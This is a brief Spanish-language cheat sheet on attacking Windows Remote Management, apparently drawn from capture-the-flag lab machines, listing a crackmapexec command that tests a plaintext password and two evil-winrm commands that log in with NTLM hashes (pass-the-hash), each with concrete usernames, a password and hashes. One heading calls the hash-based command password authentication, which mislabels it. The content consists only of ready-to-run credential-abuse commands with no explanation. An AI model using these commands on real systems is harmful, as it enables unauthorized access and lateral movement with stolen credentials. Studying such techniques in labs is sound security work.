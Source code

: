 # WINRM

## Validación de credenciales

```null
crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'
```

## Autenticación por NT

```null
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

## Autenticación por contraseña

```null
evil-winrm -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5' -i 10.10.11.175
```

